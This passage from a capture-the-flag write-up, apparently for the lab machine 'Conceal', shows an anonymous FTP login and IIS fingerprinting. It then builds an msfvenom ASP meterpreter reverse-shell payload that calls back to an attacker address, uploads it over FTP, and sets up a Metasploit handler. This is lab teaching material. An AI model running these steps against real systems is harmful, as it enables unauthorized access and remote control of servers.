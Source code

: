 ![[Conceal-07.png]]

# Exploitation

## Anonymous FTP

From the above contents we will know it has Anonymous FTP vulnerability. So let's trying the exploit it.

```bash
ftp 10.10.10.116
Anonymous
[blank]
```

Excellent! we are in FTP.

### Find Language /  Webshell

Let's use burpsuite to confirm the reverse shell type.

```bash
burpsuite
```

![[Conceal-06.png]]

we will find it was Microsoft-IIS, let's google `microsoft iis reverse shell` and will find `aspx` or `asp` will be reverse shell type. https://cheatsheet.haax.fr/windows-systems/exploitation/iis/

```txt
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 12 Oct 2018 22:10:28 GMT
Accept-Ranges: bytes
ETag: "abe052627862d41:0"
Server: Microsoft-IIS/10.0
Date: Tue, 23 Aug 2022 09:02:07 GMT
Connection: close
Content-Length: 696
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f asp > shell.asp
```

And we will upload it by using FTP.

```bash
binary
put shell.asp
```
```bash
msfconsole
use exploit/multi/handler
show options
set lhost 10.10.14.9
set lport 1234
set payload windows/meterpreter/reverse_tcp
```
